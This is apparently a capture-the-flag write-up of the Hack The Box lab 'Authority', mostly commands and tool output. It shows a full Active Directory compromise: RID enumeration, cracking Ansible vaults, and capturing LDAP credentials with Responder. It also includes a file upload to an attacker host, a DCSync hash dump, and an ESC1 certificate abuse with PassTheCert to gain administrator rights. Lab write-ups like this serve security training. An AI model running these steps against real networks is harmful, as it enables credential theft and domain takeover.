S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415 IIS APPPOOL\DefaultAppPool (5)
S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420 NT SERVICE\WdiServiceHost (5)
S-1-5-80-0 NT SERVICE\ALL SERVICES (5)
S-1-5-6 NT AUTHORITY\SERVICE (5)
S-1-5-32-568 BUILTIN\IIS_IUSRS (4)
S-1-5-32-559 BUILTIN\Performance Log Users (4)
S-1-5-32-554 BUILTIN\Pre-Windows 2000 Compatible Access (4)
S-1-5-32-551 BUILTIN\Backup Operators (4)
S-1-5-32-550 BUILTIN\Print Operators (4)
S-1-5-32-549 BUILTIN\Server Operators (4)
S-1-5-32-548 BUILTIN\Account Operators (4)
S-1-5-32-545 BUILTIN\Users (4)
S-1-5-32-544 BUILTIN\Administrators (4)
S-1-5-21-622327497-3269355298-2248959698-501 HTB\Guest (1)
S-1-5-20 NT AUTHORITY\NETWORK SERVICE (5)
S-1-5-19 NT AUTHORITY\LOCAL SERVICE (5)
S-1-1-0 \Everyone (5)enum4Linux
Shares:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
Department Shares Disk
Development Disk
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available
[+] Attempting to map shares on 10.10.11.222
//10.10.11.222/ADMIN$ Mapping: DENIED Listing: N/A Writing: N/A
//10.10.11.222/C$ Mapping: DENIED Listing: N/A Writing: N/A
//10.10.11.222/Department Shares Mapping: OK Listing: DENIED Writing: N/A
//10.10.11.222/Development Mapping: OK Listing: OK Writing: N/A
[E] Can't understand response:
NT_STATUS_NO_SUCH_FILE listing \*
//10.10.11.222/IPC$ Mapping: N/A Listing: N/A Writing: N/A
//10.10.11.222/NETLOGON Mapping: OK Listing: DENIED Writing: N/A
//10.10.11.222/SYSVOL Mapping: OK Listing: DENIED Writing: N/ARID Cycling:
[I] Found new SID:
S-1-5-21-622327497-3269355298-2248959698
[I] Found new SID:
S-1-5-21-622327497-3269355298-2248959698
[I] Found new SID:
S-1-5-32
[I] Found new SID:
S-1-5-32
[I] Found new SID:
S-1-5-32
[I] Found new SID:
S-1-5-32
[I] Found new SID:
S-1-5-32
[I] Found new SID:
S-1-5-32
[I] Found new SID:
S-1-5-32
[I] Found new SID:
S-1-5-32
[I] Found new SID:
S-1-5-21-622327497-3269355298-2248959698
[+] Enumerating users using SID S-1-5-21-1459271713-1463021508-4236075787 and logon username 'guest', password ''
S-1-5-21-1459271713-1463021508-4236075787-500 AUTHORITY\Administrator (Local User)
S-1-5-21-1459271713-1463021508-4236075787-501 AUTHORITY\Guest (Local User)
S-1-5-21-1459271713-1463021508-4236075787-503 AUTHORITY\DefaultAccount (Local User)
S-1-5-21-1459271713-1463021508-4236075787-504 AUTHORITY\WDAGUtilityAccount (Local User)
S-1-5-21-1459271713-1463021508-4236075787-513 AUTHORITY\None (Domain Group)
[+] Enumerating users using SID S-1-5-82-3006700770-424185619-1745488364-794895919 and logon username 'guest', password ''
[+] Enumerating users using SID S-1-5-80 and logon username 'guest', password ''
[+] Enumerating users using SID S-1-5-90 and logon username 'guest', password ''
[+] Enumerating users using SID S-1-5-21-622327497-3269355298-2248959698 and logon username 'guest', password ''
S-1-5-21-622327497-3269355298-2248959698-500 HTB\Administrator (Local User)
S-1-5-21-622327497-3269355298-2248959698-501 HTB\Guest (Local User)
S-1-5-21-622327497-3269355298-2248959698-502 HTB\krbtgt (Local User)
S-1-5-21-622327497-3269355298-2248959698-512 HTB\Domain Admins (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-513 HTB\Domain Users (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-514 HTB\Domain Guests (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-515 HTB\Domain Computers (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-516 HTB\Domain Controllers (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-517 HTB\Cert Publishers (Local Group)
S-1-5-21-622327497-3269355298-2248959698-518 HTB\Schema Admins (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-519 HTB\Enterprise Admins (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-520 HTB\Group Policy Creator Owners (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-521 HTB\Read-only Domain Controllers (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-522 HTB\Cloneable Domain Controllers (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-525 HTB\Protected Users (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-526 HTB\Key Admins (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-527 HTB\Enterprise Key Admins (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-1000 HTB\AUTHORITY$ (Local User)
[+] Enumerating users using SID S-1-5-32 and logon username 'guest', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)Bruteforce RIDs
Using the following script:
#!/bin/bash
sid="S-1-5-21-622327497-3269355298-2248959698"
for i in `seq 1 9999999`; do
rpcclient -U "" -c "lookupsids $sid-$i;quit" 10.10.11.222 | cut -d ' ' -f2
doneUsing ridenum:
ridenum 10.10.11.222 1500 5000 "guest" ""
Account name: HTB\svc_ldapCurrent users:
S-1-5-21-622327497-3269355298-2248959698-500 HTB\Administrator (Local User)
S-1-5-21-622327497-3269355298-2248959698-501 HTB\Guest (Local User)
S-1-5-21-622327497-3269355298-2248959698-502 HTB\krbtgt (Local User)
S-1-5-21-622327497-3269355298-2248959698-512 HTB\Domain Admins (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-513 HTB\Domain Users (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-514 HTB\Domain Guests (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-515 HTB\Domain Computers (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-516 HTB\Domain Controllers (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-517 HTB\Cert Publishers (Local Group)
S-1-5-21-622327497-3269355298-2248959698-518 HTB\Schema Admins (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-519 HTB\Enterprise Admins (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-520 HTB\Group Policy Creator Owners (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-521 HTB\Read-only Domain Controllers (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-522 HTB\Cloneable Domain Controllers (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-525 HTB\Protected Users (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-526 HTB\Key Admins (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-527 HTB\Enterprise Key Admins (Domain Group)
S-1-5-21-622327497-3269355298-2248959698-1000 HTB\AUTHORITY$ (Local User)
S-1-5-21-622327497-3269355298-2248959698-1601 HTB\svc_ldap (1)
S-1-5-21-622327497-3269355298-2248959698-1101 HTB\DnsAdmins (4)
S-1-5-21-622327497-3269355298-2248959698-1102 HTB\DnsUpdateProxy (2)Ansible
Searched on google for ‘ansible’ pentesting and found the following guide:
Earlier we found some interesting ansible files when browsing the SMB share
\Automation\Ansible\PWM\defaults\main.yml
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"
pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true
pwm_require_ssl: false
pwm_admin_login: !vault |
$ANSIBLE_VAULT;1.1;AES256
32666534386435366537653136663731633138616264323230383566333966346662313161326239
6134353663663462373265633832356663356239383039640a346431373431666433343434366139
35653634376333666234613466396534343030656165396464323564373334616262613439343033
6334326263326364380a653034313733326639323433626130343834663538326439636232306531
3438
pwm_admin_password: !vault |
$ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531
ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
$ANSIBLE_VAULT;1.1;AES256
63303831303534303266356462373731393561313363313038376166336536666232626461653630
3437333035366235613437373733316635313530326639330a643034623530623439616136363563
34646237336164356438383034623462323531316333623135383134656263663266653938333334
3238343230333633350a646664396565633037333431626163306531336336326665316430613566
3764\Automation\Ansible\PWM\ansible_inventory
ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignoreCracking ansible vaults
- Make sure each vault is on one line and save them to separate files (vault1.yaml / vault2.yaml / vault3.yaml)
NOTE: the$ANSIBLE_VAULT;1.1;AES256prefix should be on line 1 the other stuff on line 2# vault1.yaml $ANSIBLE_VAULT;1.1;AES256 326665343864353665376531366637316331386162643232303835663339663466623131613262396134353663663462373265633832356663356239383039640a346431373431666433343434366139356536343763336662346134663965343430306561653964643235643733346162626134393430336334326263326364380a6530343137333266393234336261303438346635383264396362323065313438 # vault2.yaml $ANSIBLE_VAULT;1.1;AES256 313563383439633230633734353632613235633932356333653561346162616664333932633737363335616263326464633832376261306131303337653964350a363663623132353136346631396662386564323238303933393362313736373035356136366465616536373866346138623166383535303930356637306461350a3164666630373030376537613235653433386539346465336633653630356531 # vault3.yaml $ANSIBLE_VAULT;1.1;AES256 633038313035343032663564623737313935613133633130383761663365366662326264616536303437333035366235613437373733316635313530326639330a643034623530623439616136363563346462373361643564383830346234623235313163336231353831346562636632666539383333343238343230333633350a6466643965656330373334316261633065313363363266653164306135663764 - Use ansible2John to get a crackable format
vault1.yaml:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8 vault2.yaml:$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5 vault3.yaml:$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635 - Use hashcat to crack
- seems it doesn’t matter which one you crack :p
# vault1 -> !@#$%^&* hashcat -m 16900 -O -a 0 -w 4 --session=vault -o vault1_hash '$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8' /usr/share/wordlists/rockyou.txt # vault2 -> !@#$%^&* hashcat -m 16900 -O -a 0 -w 4 --session=vault -o vault2_hash '$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5' /usr/share/wordlists/rockyou.txt # vault3 -> !@#$%^&* hashcat -m 16900 -O -a 0 -w 4 --session=vault -o vault3_hash '$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635' /usr/share/wordlists/rockyou.txt - Use ansible to decrypt
cat vault<1/2/3>.yaml | ansible-vault decrypt
# vault 1
svc_pwm
# vault 2
pWm_@dm!N_!23
# vault 3
DevT3st@123Access
Trying creds everywhere…
Creds: pWm_@dm!N_!23 worked on the following page (port 8443)

- Downloaded configuration file
- changed the ldap server address (change from ldaps to ldap)

- start responder: sudo responder -I tun0 -d
- uploaded the new configuration file
- try browsing to website & logging in

svc_ldap:lDaP_1n_th3_cle4r!
- check for access with cme
- winrm:
evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!’ - found flag → 05ba593ac45eb107bb8683c10948efc3
- winrm:
Priv esc
Try1: winpeas
python3 -m http.server 8080
curl http://10.10.14.193/winPEASany.exe -outfile wp.exeoutput
DPAPI:
[+] Checking for DPAPI Master Keys
[?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi
MasterKey: C:\Users\svc_ldap\AppData\Roaming\Microsoft\Protect\S-1-5-21-622327497-3269355298-2248959698-1601\ede7dbdc-ffc7-4c2c-8cd8-0f8d466d56ab
Accessed: 3/24/2023 11:27:47 PM
Modified: 3/24/2023 11:27:47 PM
=================================================================================================
[+] Checking for DPAPI Credential Files
[?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi
CredFile: C:\Users\svc_ldap\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
Description: Local Credential Data
MasterKey: ede7dbdc-ffc7-4c2c-8cd8-0f8d466d56ab
Accessed: 3/24/2023 11:27:50 PM
Modified: 3/24/2023 11:27:50 PM
Size: 11020
=================================================================================================privs:
SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLEDExtract DPAPI:
python2.7 upload.py 8080
curl.exe -i -F file=@"5e7b7e05-2681-4847-b3e8-ddafd7880352" http://10.10.14.193:8080
→ nothing
Try2: cred dump (DCSync)

impacket-secretsdump -outputfile 'outpDcSync' authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!'@10.10.11.222
Output
# SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a15217bb5af3046c87b5bb6afa7b193e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# Domain creds
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f08349e555acdd767a26032bb9ee2412:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
→ seems like I can’t use any of these creds
Try3: Certs
- found some cert in
C:\Certs\LDAPs.pfx
The PKCS#12 or PFX/P12 format is a binary format for storing the server certificate, intermediate certificates, and the private key in one encryptable file
Certify
https://github.com/GhostPack/Certify
Certify.exe find /vulnerable
Output
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'
[*] Listing info about the Enterprise CA 'AUTHORITY-CA'
Enterprise CA Name : AUTHORITY-CA
DNS Hostname : authority.authority.htb
FullName : authority.authority.htb\AUTHORITY-CA
Flags : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
Cert SubjectName : CN=AUTHORITY-CA, DC=authority, DC=htb
Cert Thumbprint : 42A80DC79DD9CE76D032080B2F8B172BC29B0182
Cert Serial : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
Cert Start Date : 4/23/2023 9:46:26 PM
Cert End Date : 4/23/2123 9:56:25 PM
Cert Chain : CN=AUTHORITY-CA,DC=authority,DC=htb
UserSpecifiedSAN : Disabled
CA Permissions :
Owner: BUILTIN\Administrators S-1-5-32-544
Access Rights Principal
Allow Enroll NT AUTHORITY\Authenticated UsersS-1-5-11
Allow ManageCA, ManageCertificates BUILTIN\Administrators S-1-5-32-544
Allow ManageCA, ManageCertificates HTB\Domain Admins S-1-5-21-622327497-3269355298-2248959698-512
Allow ManageCA, ManageCertificates HTB\Enterprise Admins S-1-5-21-622327497-3269355298-2248959698-519
Enrollment Agent Restrictions : None
[!] Vulnerable Certificates Templates :
CA Name : authority.authority.htb\AUTHORITY-CA
Template Name : CorpVPN
Schema Version : 2
Validity Period : 20 years
Renewal Period : 6 weeks
msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
mspki-enrollment-flag : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT_CHECK_USER_DS_CERTIFICATE
Authorized Signatures Required : 0
pkiextendedkeyusage : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
mspki-certificate-application-policy : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
Permissions
Enrollment Permissions
Enrollment Rights : HTB\Domain Admins S-1-5-21-622327497-3269355298-2248959698-512
HTB\Domain Computers S-1-5-21-622327497-3269355298-2248959698-515
HTB\Enterprise Admins S-1-5-21-622327497-3269355298-2248959698-519
Object Control Permissions
Owner : HTB\Administrator S-1-5-21-622327497-3269355298-2248959698-500
WriteOwner Principals : HTB\Administrator S-1-5-21-622327497-3269355298-2248959698-500
HTB\Domain Admins S-1-5-21-622327497-3269355298-2248959698-512
HTB\Enterprise Admins S-1-5-21-622327497-3269355298-2248959698-519
WriteDacl Principals : HTB\Administrator S-1-5-21-622327497-3269355298-2248959698-500
HTB\Domain Admins S-1-5-21-622327497-3269355298-2248959698-512
HTB\Enterprise Admins S-1-5-21-622327497-3269355298-2248959698-519
WriteProperty Principals : HTB\Administrator S-1-5-21-622327497-3269355298-2248959698-500
HTB\Domain Admins S-1-5-21-622327497-3269355298-2248959698-512
HTB\Enterprise Admins S-1-5-21-622327497-3269355298-2248959698-519msPKI-Certificates-Name-Flag: ENROLLEE_SUPPLIES_SUBJECT→ indicates that the user, who is requesting a new certificate based on this certificate template, can request the certificate for another user, meaning any user, including domain administrator user.PkiExtendedKeyUsage: Client Authentication→ indicates that the certificate that will be generated based on this certificate template can be used to authenticate to computers in Active Directory.HTB\Domain Computersare in enrollment rights → indicates objects in this group are allowed to request new certificates- so the current user we have CAN’T REQUEST CERTIFICATES
Creating machine acc & requesting own certificate
- Add computer account
impacket-addcomputer 10.10.11.222/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name STX$ -computer-pass Password123 [*] Successfully added machine account STX$ with password Password123 - Since we can’t login using that account, we can use certipy to request our certificate remotely (in the context of administrator)
certipy-ad req -u 'STX$' -p 'Password123' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with multiple identifications
UPN: 'administrator@authority.htb'
DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'PassTheCert
AlmondOffSec/PassTheCert - Proof-of-Concept tool to authenticate to an LDAP/S server with a certificate through Schannel
- Split pfx key into .crt and .key in order to use passthecert.py
certipy-ad cert -pfx administrator_authority.pfx -nokey -out cert.crt certipy-ad cert -pfx administrator_authority.pfx -nocert -out cert.key - passthecert to get LDAP shell
python3 passthecert.py -dc-ip 10.10.11.222 -crt cert.crt -key cert.key -domain authority.htb -port 636 -action ldap-shell - in ldap shell → add svc_ldap to administrators
add_user_to_group svc_ldap administrators - check permissions
*Evil-WinRM* PS C:\Users\Administrator\Desktop> net user svc_ldap
User name svc_ldap
Full Name
Comment
User's comment
Country/region code 000 (System Default)
Account active Yes
Account expires Never
Password last set 8/10/2022 9:29:31 PM
Password expires Never
Password changeable 8/11/2022 9:29:31 PM
Password required Yes
User may change password Yes
Workstations allowed All
Logon script
User profile
Home directory
Last logon 7/5/2023 8:43:09 PM
Logon hours allowed All
Local Group Memberships *Administrators *Remote Management Use
Global Group memberships *Domain Users→ we’re now administrator
Found flag in C:\Users\Administrator\Desktop → 27364d9a25b7dd0c87ae1699c3ea942a
